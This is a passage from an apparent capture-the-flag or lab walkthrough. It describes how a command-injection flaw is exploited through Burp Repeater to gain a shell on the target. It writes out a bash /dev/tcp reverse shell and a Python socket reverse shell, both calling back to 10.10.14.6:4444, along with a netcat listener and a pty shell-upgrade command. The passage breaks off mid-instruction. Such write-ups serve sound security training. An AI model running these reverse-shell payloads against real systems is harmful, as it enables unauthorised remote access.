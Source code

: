 ![](https://miro.medium.com/max/486/1*K3dFDGqCBL3kKmpSaMs71g.png)

Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

**Note**: It’s not necessary to do this using Burp.

First, intercept the request with Burp and send it to Repeater \(right click &gt; Send to Repeater\).

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

```text
/bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1
```

Highlight the entire string and click on CTRL+U to URL encode it.

![](https://miro.medium.com/max/465/1*4kzlbFV-7uYIf1JzpmDEsA.png)

Set up a listener on the attack machine.

```text
nc -nlvp 4444
```

Execute the request. It doesn’t send a reverse shell back. Check if bash is installed on the machine.

```text
which bash
```

![](https://miro.medium.com/max/919/1*5ljbBdyQo5QOKxfjBdFdnA.png)

It is so I’m not sure why this didn’t work. Let’s try python.

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Again, don’t forget to URL encode it.

![](https://miro.medium.com/max/818/1*a_2rl6isI-8XzSMcf9fyFw.png)

We get back a low privileged shell!

![](https://miro.medium.com/max/667/1*HlbmfN58w08F8xgCSTlpsw.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.
